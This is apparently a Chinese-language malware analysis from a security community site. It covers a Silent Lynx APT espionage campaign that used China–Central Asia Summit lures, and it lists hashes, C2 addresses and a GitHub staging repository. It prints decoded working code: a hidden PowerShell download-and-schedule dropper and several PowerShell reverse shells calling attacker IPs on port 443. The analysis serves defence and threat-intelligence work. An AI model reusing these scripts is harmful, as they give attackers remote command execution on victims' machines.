# Silent Lynx APT组织针对中国—中亚峰会的网络间谍活动深度剖析-先知社区

> **来源**: https://xz.aliyun.com/news/19311  
> **文章ID**: 19311

---

## 概述

2025年11月3日，Seqrite安全实验室发布了一篇《Operation Peek-a-Baku: Silent Lynx APT makes sluggish shift to Dushanbe》报告，报告揭示了Silent Lynx APT组织针对**中国–中亚合作框架下的实体**发起的一场网络间谍行动。

为了能够深入的理解该组织的技术能力，笔者不仅对报告中提到的样本进行了详细分析，还尝试通过关联分析技术，获取了其他样本，并对其进行了详细剖析。

详细分析情况如下：

* Seqrite安全实验室报告中提到了一款**与中国相关的诱饵样本：China-Central Asia SummitProject.rar**
* 尝试对Seqrite安全实验室报告中的样本进行分类梳理，样本可分为三类：

* C&C站点（IP、域名）既充当木马下载地址，又充当反弹shell回链地址；
* Github仓库作为木马下载地址，C&C站点充当反弹shell回链地址；
* 配合使用Ligolo-Ng隧道工具；

* 尝试对Github仓库（`https://github.com/GoBuster7777/asd`）进行分析，梳理发现：

* 此仓库于2025年3月17日开始使用，目前还在使用，最近的一次更新为2025年10月29日；
* 基于技术手段，提取Github仓库用户注册邮箱：`GoBuster7777@proton.me`；
* 基于技术手段，梳理发现攻击者前期操作Github仓库的时区为东五区（+0500），与中亚国家时区吻合，与报告中提到的某样本上传地点时区也基本吻合；

## VT关联样本

|  |  |  |
| --- | --- | --- |
| 样本Hash | 文件名 | 反弹shell地址、外联下载地址 |
| ef757733bf4b4c484dd0d6ad05032e3c | China-Central Asia SummitProject.rar |  |
| bc89c56ce3c5ab2895de5c1336a06d34 | China-Central Asia Summit Project.exe | `http://62.113.66.137/WindowsUpdateService.vbs`、`http://62.113.66.137/WindowsUpdateService.ps1` |
| 97fa48a29a56a0e769a21968c9960a26 |  | `http://62.113.66.137/WindowsUpdateService.ps1` |
| f28bc5201ee94d1b57b2ffbeaa054922 | WindowsUpdateService.zip |  |
| 8940dc4688ed091eb916f13b23747af5 | WindowsUpdateService.vbs |  |
| 77ef95fbb1df302f18e7de1f74a7e18f | WindowsUpdateService.ps1 | 62.113.66.137:443 |
| 62cbc7f8edd9272e6f90c7dec127225b | NortonSamples.zip |  |
| 473949798b06cf667bdd198c894e89a2 | ServiceUpdateWindows.vbs | `http://62.113.66.137/comhost.exe` |
| a4840200cdc6fc37beabc18abb061df5 | comhost.exe | 62.113.66.7:443 (updates-check-microsoft.ddns.net) |
| 56db53cdaf0f2b4b35a3112d75535fd3 | agent\_ald.exe | 62.113.66.7:443 (updates-check-microsoft.ddns.net) |
| 21ea02342c9ab5510201e5776dd518da | payload\_1.exe | 62.113.66.7:443 (updates-check-microsoft.ddns.net) |
| 3552fb1c5a7ef8b30afa3aa1027bd298 | ijy3c.exe | 62.113.66.137:80 |
| b88da2f6e5e9df5572e9d4dc87ed9f49 | wefwe.exe | 62.113.66.137:443 (updates-check-microsoft.ddns.net) |
| 39142db39eee6eff1cb475dc48167b73 | xcvxcv.exe | 62.113.66.137:443 (updates-check-microsoft.ddns.net) |
| 39ae2489f83038869780a2b605f60bd8 | 123.exe | 62.113.66.137:443 (updates-check-microsoft.ddns.net) |
| c7f53d92af254ae0fec2a9135dcfef46 | resume.rar |  |
| 96765150432a1106b5a25f1b0cc21a30 | resume.lnk | 62.113.66.137:443 |
| fc2b08ead63b65f7e36e8e89c1a6284d | resume.rar |  |
| 72cfd98bd4ca0e14af2c48b09d37ac1e | resume.lnk | 62.113.66.137:443 |
| 0b0b4b979a686e1ae523f6a2284d42d6 | Laplas.exe | 89.22.173.54:443 (support-service-update.serveftp.com) |
| 4028e2b69632ddccdfd3d9faf72c7048 | gqgea.exe | 37.18.27.27:443 |
| 5944d415b1a76155b6c7bfdbd1008951 | 1.pdf.rar |  |
| a86d0b650a76b6ee345a6cd0c3cafbac | 1.rar |  |
| e519903401bced34ce3d6f4ee2212b19 | 1.pdf.lnk | `https://raw.githubusercontent.com/GoBuster7777/asd/main/1.ps1` |
| 1596dc61cea15a58440dda1cbc188d35 | 1.pdf.rar |  |
| 6302bde2e0cb88c22d55b08242b52bf3 | 1.pdf.lnk | `https://raw.githubusercontent.com/GoBuster7777/asd/main/1.ps1` |
| ed6fa380eb78f7c0ea8d0ed8fefe8d94 | resume.rar |  |
| 291826ef687c322cf089be97f9aff97d | resume.lnk | `https://raw.githubusercontent.com/GoBuster7777/asd/refs/heads/main/1.ps1` |
| 45eeee7cd7dc978784b27d9ede41960f | resume.rar |  |
| 34b0362734f9d6dc0ed0f2ac5a608e27 | resume.lnk | `https://raw.githubusercontent.com/GoBuster7777/asd/refs/heads/main/1.ps1` |
| 41cf36c3452dc06cbaff620db82e3361 | resume.rar |  |
| 641b4dcbef8e134defeccae2530e8a61 | resume.lnk | `https://raw.githubusercontent.com/GoBuster7777/asd/refs/heads/main/1.ps1` |
| 45eeee7cd7dc978784b27d9ede41960f | resume.rar |  |
| 34b0362734f9d6dc0ed0f2ac5a608e27 | resume.lnk | `https://raw.githubusercontent.com/GoBuster7777/asd/refs/heads/main/1.ps1` |
| 0b6ccfe732e78c52c9ed5777173fd308 | resume.rar |  |
| 2e5107ee65c89d2229b470730d84155b | resume.lnk | `https://raw.githubusercontent.com/GoBuster7777/asd/refs/heads/main/1.ps1` |
| 43e21a2f0491be9e5ccb10996f881e8d | silent\_loader.exe | `https://raw.githubusercontent.com/GoBuster7777/asd/refs/heads/main/1.ps1` |
| b22c6ba34f3677efe75141e53efb964b | asd-main.zip |  |
| a903f5f238252094a3f27f9a2f14f984 | 1.ps1 | 62.113.66.137:443 |
| b1280a8b9c31c677b833cb34d749ac5a | 2.ps1 | 143.244.140.9:443 |
|  |  |  |
| 474f50086754647319f83dd26f529c9b | 123.exe | `http://62.113.66.137/ssdpdrv.exe`、`http://62.113.66.137/libcrypto-3.dll`、`http://62.113.66.137/libssl-3.dll` |
| 123f6b5b0b4220a30cc1605b144ff69e | 123.exe | `http://updates-check-microsoft.ddns.net/MicrosoftOfficeUpdate.zip` |
|  |  | `http://updates-check-microsoft.ddns.net/1.pdf` |
| d5353e6fcc3ff91bb83d7597f02fd0c0 | MicrosoftOfficeUpdate.zip |  |
| ff7f4292400741a7ac17d6429142c9b1 | ssdpdrv.exe |  |
|  | libcrypto-3.dll |  |
|  | libssl-3.dll |  |
| c2cc85e71cd58a78d2c1f336771533a9 | ssdpdrv.exe | 62.113.66.7:80 (updates-check-microsoft.ddns.net) |
| 0ae77c4ba8f8e8100c8889de3e64f48b | ssdpdrv.exe | 62.113.66.7:80 |

## China-Central Asia SummitProject.rar

诱饵样本China-Central Asia SummitProject.rar解压后即可获得China-Central Asia Summit Project.exe样本。

相关截图如下：



## China-Central Asia Summit Project.exe

### 命令行参数

通过分析，发现此样本支持命令行参数，相关代码截图如下：



通过分析，笔者发现好像只有-wait和-extract参数有实际效果，其他参数貌似意义不大：

* -extract参数：将内嵌的 `TM3.ps1` 脚本提取到指定文件路径；
* -wait参数：程序执行完成后，弹出一个提示框 “Click OK to exit...”，等待用户手动关闭；

运行截图如下：





### 加载执行TM3.ps1

样本运行后，将默认加载执行资源段中的TM3.ps1脚本。

尝试对TM3.ps1脚本解密，解密后Powershell脚本内容如下：

```
Start-Process powershell.exe -WindowStyle Hidden -ArgumentList "-NoProfile -ExecutionPolicy Bypass -Command `"iwr -Uri http://62.113.66.137/WindowsUpdateService.vbs -OutFile `$env:TEMP\WindowsUpdateService.vbs; iwr -Uri http://62.113.66.137/WindowsUpdateService.ps1 -OutFile `$env:TEMP\WindowsUpdateService.ps1; schtasks /create /tn `"WindowsUpdate`" /tr `"`\`"`$env:TEMP\WindowsUpdateService.vbs`\`"`" /sc minute /mo 6 /ru `"`$env:USERNAME`" /f; schtasks /run /tn `"WindowsUpdate`"`""
```

梳理其功能为：

* 外联下载`http://62.113.66.137/WindowsUpdateService.vbs`文件至%TEMP%\WindowsUpdateService.vbs路径；
* 外联下载`http://62.113.66.137/WindowsUpdateService.ps1`文件至%TEMP%\WindowsUpdateService.ps1路径；
* 创建计划任务，每6分钟执行一次WindowsUpdateService.vbs脚本；

相关截图如下：



### WindowsUpdateService.vbs

WindowsUpdateService.vbs脚本功能为：外联下载并执行WindowsUpdateService.ps1脚本。

相关代码截图如下：



### WindowsUpdateService.ps1

WindowsUpdateService.ps1脚本功能为：向 62.113.66.137:443 发起反向连接，实现远程命令执行。

解码后脚本内容如下：

```
$tcp = New-Object System.Net.Sockets.TCPClient("62.113.66.137", 443)
$stream = $tcp.GetStream()
$reader = New-Object System.IO.StreamReader($stream)
$writer = New-Object System.IO.StreamWriter($stream)
$writer.AutoFlush = $true

while ($true) {
    $command = $reader.ReadLine()
    if ($command) {
        $output = Invoke-Expression $command 2>&1
        if ($output -is [System.Collections.IEnumerable]) {
            $output = $output | Out-String
        }
        $writer.WriteLine($output)
    } else {
        $writer.WriteLine("No command received")
    }
}

$reader.Close()
$writer.Close()
$stream.Close()
$tcp.Close()
```

相关代码截图如下：



## 1.ps1

在此次攻击中，攻击者还将Github仓库作为木马下载地址，相关下载地址截图如下：



此脚本功能与上述脚本功能相同，均为：向 62.113.66.137:443 发起反向连接，实现远程命令执行。

解码后脚本内容如下：

```
$e = '62.113.66.137'
$p = 443
$c = New-Object System.Net.Sockets.TcpClient($e, $p)
$s = $c.GetStream()
[byte[]]$b = ,0 * 65536

while ($true) {
    $i = $s.Read($b, 0, $b.Length)
    if (!$i) {
        break
    }
    
    $d = [Text.Encoding]::UTF8.GetString($b, 0, $i).Trim()
    
    if ($d) {
        $r = try {
            & ([ScriptBlock]::Create($d)) 2>&1 | Out-String
        } catch {
            $_.Exception.Message
        }
        $r += 'PS ' + $pwd.Path + '> '
        $s.Write([Text.Encoding]::UTF8.GetBytes($r), 0, $r.Length)
    }
}

$c.Close()
```

## GoBuster7777仓库分析

尝试对GoBuster7777仓库进行分析，发现此Github仓库中存在1.ps1、2.ps1脚本，相关截图如下：



其中1.ps1脚本对应上述木马下载地址中的1.ps1脚本。

2.ps1脚本内容，除外联IP不同外，其余内容均相同。

2.ps1脚本解码后内容如下：

```
$e='143.244.140.9';$p=443;$c=New-Object System.Net.Sockets.TcpClient($e,$p);$s=$c.GetStream();[byte[]]$b=,0*65536;while($true){$i=$s.Read($b,0,$b.Length);if(!$i){break};$d=[Text.Encoding]::UTF8.GetString($b,0,$i).Trim();if($d){$r=try{& ([ScriptBlock]::Create($d)) 2>&1 | Out-String}catch{$_.Exception.Message};$r+='PS '+$pwd.Path+'> ';$s.Write([Text.Encoding]::UTF8.GetBytes($r),0,$r.Length)}};$c.Close()
```

### commit记录

进一步分析，发现GoBuster7777仓库存在大量commit提交记录，相关截图如下：



基于技术手段，提取commit提交时间，梳理攻击者操作记录，发现攻击者前期操作Github仓库的时区为东五区（+0500），与中亚国家时区吻合，与报告中提到的某样本上传地点时区（大概率是受控地上传）也基本吻合。

时区对比截图如下：




相关操作记录梳理如下：

|  |  |  |
| --- | --- | --- |
| 提交时间1 | 提交时间2（commit页面） | 操作行为 |
| Tue, 18 Mar 2025 00:54:48 +0500 | 2025-03-17T19:54:48.000Z | 上传adsprgsrv.exe |
| Tue, 18 Mar 2025 00:54:48 +0500 | 2025-03-17T20:51:01.000Z | 上传adsprgprg.exe |
| Tue, 18 Mar 2025 01:51:01 +0500 | 2025-03-17T20:51:10.000Z | 删除adsprgprg.exe |
| Tue, 18 Mar 2025 01:51:10 +0500 | 2025-03-17T20:52:28.000Z | 删除adsprgsrv.exe |
| Tue, 18 Mar 2025 01:52:28 +0500 | 2025-05-14T06:47:39.000Z | 上传adsprgprg.b64 |
| Wed, 14 May 2025 06:47:39 +0000 | 2025-05-14T06:48:20.000Z | 上传983K.pdf.exe |
| Wed, 14 May 2025 06:48:20 +0000 | 2025-05-14T06:48:20.000Z | 更新adsprgprg.b64为空 |
| Sun, 1 Jun 2025 21:47:33 -0700 | 2025-06-02T04:47:33.000Z | 上传doc.docm |
| Wed, 15 Oct 2025 06:10:52 +0000 | 2025-10-15T06:10:52.000Z | 上传1.ps1 |
| Thu, 16 Oct 2025 06:01:00 +0000 | 2025-10-16T06:01:00.000Z | 上传Документ Microsoft Word.pdf |
| Tue, 21 Oct 2025 04:44:55 +0000 | 2025-10-21T04:44:55.000Z | 上传2.exe |
| Tue, 21 Oct 2025 05:25:08 +0000 | 2025-10-21T05:25:08.000Z | 删除2.exe |
| Tue, 21 Oct 2025 05:25:18 +0000 | 2025-10-21T05:25:18.000Z | 删除983K.pdf.exe |
| Tue, 21 Oct 2025 05:25:28 +0000 | 2025-10-21T05:25:28.000Z | 删除adsprgprg.b64 |
| Tue, 21 Oct 2025 05:25:41 +0000 | 2025-10-21T05:25:41.000Z | 删除doc.docm |
| Tue, 21 Oct 2025 05:25:54 +0000 | 2025-10-21T05:25:54.000Z | 删除Документ Microsoft Word.pdf |
| Thu, 23 Oct 2025 06:16:33 +0000 | 2025-10-23T06:16:33.000Z | 删除1.ps1 |
| Thu, 23 Oct 2025 06:19:04 +0000 | 2025-10-23T06:19:04.000Z | 上传2.ps1 |
| Fri, 24 Oct 2025 07:56:15 +0000 | 2025-10-24T07:56:15.000Z | 上传asd.pdf |
| Wed, 29 Oct 2025 12:07:08 +0000 | 2025-10-29T12:07:08.000Z | 删除asd.pdf |
| Wed, 29 Oct 2025 12:10:36 +0000 | 2025-10-29T12:10:36.000Z | 上传1.ps1 |

## GoBuster7777仓库样本梳理

尝试从GoBuster7777仓库中提取历史操作记录文件，共成功提取11个样本文件，相关信息如下：

|  |  |  |
| --- | --- | --- |
| 操作行为 | 样本Hash | 功能、反弹连接地址 |
| 上传adsprgsrv.exe | 2F44668CB6E3699DCD3159344E4AA4E9 | 加载adsprgprg.exe |
| 上传adsprgprg.exe | F7F7A950C2C8CD581BA4A09230F3E0E4 | catalog-update-unix-systems.servehttp.com:80 |
| 上传adsprgprg.b64 | 2A3A37D848FC7E4AE72B8D1D8A61DBA2 | Base64解码后为adsprgprg.exe |
| 上传983K.pdf.exe | 28D1D6090AD005D9F626D27D9CD072B7 | 自解压程序，未发现异常 |
| 上传doc.docm | EEDBA42A7C8637378267F68BFC3C763F | 宏病毒，外联下载：`http://178.128.40.89:8989/shell.exe` |
| 上传1.ps1 | FB1A21DA08C9DC28C1CB855DCE893E9C | 206.189.11.142:443 |
| 上传Документ Microsoft Word.pdf | 6A19436CF7912973334277B0347E89DE | 未发现异常 |
| 上传2.exe | 46F0698962935C68B672F6C072ED5B9D | 206.189.11.142:443 |
| 上传2.ps1 | B1280A8B9C31C677B833CB34D749AC5A | 143.244.140.9:443 |
| 上传asd.pdf | 40A7094C5CB49926797319E7C8B1D12C | Intelligence X API官方正常文档 |
| 上传1.ps1 | A903F5F238252094A3F27F9A2F14F984 | 62.113.66.137:443 |

### adsprgsrv.exe

通过分析，梳理adsprgsrv.exe样本功能如下：

* PDB信息：C:\Users\admin\source
  epos\Service\x64\Release\Service.pdb
* 服务程序，负责在后台持续监控并启动 "adsprgprg.exe"程序

将adsprgsrv.exe手动注册为服务并启动后，adsprgsrv服务将启动同目录下的 "adsprgprg.exe"程序，相关截图如下：



相关代码截图如下：





### adsprgprg.exe

通过分析，梳理adsprgprg.exe样本功能如下：

* PDB信息：C:\Users\admin\source
  epos\Laplasgeneral\x64\Release\Laplasgeneral.pdb
* 两种外联上线方式

* 内置反弹地址：catalog-update-unix-systems.servehttp.com:80
* 命令行参数指定：adsprgsrv.exe 外联地址 外联端口

* 内置解密算法，解密后字符串为：cmd.exe

模拟手动指定外联地址，实现反弹shell功能截图如下：



两种外联上线方式代码截图如下：



字符串解密算法代码截图如下：



反弹shell代码截图如下：

